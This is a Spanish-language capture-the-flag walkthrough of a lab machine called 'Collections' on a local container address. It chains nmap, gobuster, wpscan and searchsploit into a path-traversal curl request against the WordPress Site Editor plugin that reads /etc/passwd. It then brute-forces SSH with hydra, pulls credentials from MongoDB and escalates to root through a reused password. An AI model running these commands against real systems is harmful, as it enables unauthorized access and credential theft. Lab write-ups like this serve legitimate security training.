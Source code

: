 ```yaml
---
layout: page
title:  "Colletions!"
date:    2024-11-30 14:14:17 -0505
categories: Pentesting
---
```

![[Pasted image 20241126143259.png]](/imagenes/Pasted%20image%2020241126143259.png)

escaneamos puertos con nmap  `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2`

![[Pasted image 20241126143428.png]](/imagenes/Pasted%20image%2020241126143428.png)

entramos en el navegador 

![[Pasted image 20241126143553.png]](/imagenes/Pasted%20image%2020241126143553.png)

buscamos directorios con goubuster `gobuster dir -u "http://172.17.0.2/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt` 

![[Pasted image 20241126143720.png]](/imagenes/Pasted%20image%2020241126143720.png)


![[Pasted image 20241126143741.png]](/imagenes/Pasted%20image%2020241126143741.png)

si interactuamos con el sitio web debemos anadir el colletions.dl al host `sudo nano /etc/hosts`  control O, control x luego enter
luego busco directorios en la nueva direccion

![[Pasted image 20241126144527.png]](/imagenes/Pasted%20image%2020241126144527.png)
![[Pasted image 20241126144630.png]](/imagenes/Pasted%20image%2020241126144630.png)

al ver que es wordprees tarto de buscar vulneravilidades con wpscan `wpscan --url http://collections.dl/wordpress/ -e u`     

![[Pasted image 20241126145500.png]](/imagenes/Pasted%20image%2020241126145500.png)
![[Pasted image 20241126145523.png]](/imagenes/Pasted%20image%2020241126145523.png)

buscamos un sploit para el plugin
`searchsploit site editor 1.1`

![[Pasted image 20241126145643.png]](/imagenes/Pasted%20image%2020241126145643.png)

en sploit db encontramos como vulnerar ese plugin 

![[Pasted image 20241126145734.png]](/imagenes/Pasted%20image%2020241126145734.png)

curl "http://172.17.0.2/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd" 

![[Pasted image 20241126145827.png]](/imagenes/Pasted%20image%2020241126145827.png)

encontramos los usuarios dbadmin, root y el anteriormente encontrado chocolate usamos hydra para encontrar una contrasena para chocolate
`hydra -l chocolate -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`  
    
![[Pasted image 20241126145956.png]](/imagenes/Pasted%20image%2020241126145956.png)

entramos por ssh  vemos que no tenemos permisos sudo y en el directorio tmp encontramos una base de datos mongo recordamos mongo corre en el puerto 27017

![[Pasted image 20241126150107.png]](/imagenes/Pasted%20image%2020241126150107.png)

`mongo --host 172.17.0.2:27017` este comando desde la maquina atacante se debe instalar mongo para que funcione 

![[Pasted image 20241126154311.png]](/imagenes/Pasted%20image%2020241126154311.png)

entramos desde el ssh con las nuevas credenciales y vemos que el usuario root tiene la misma contrasena que el dbadmin

![[Pasted image 20241126154456.png]](/imagenes/Pasted%20image%2020241126154456.png)
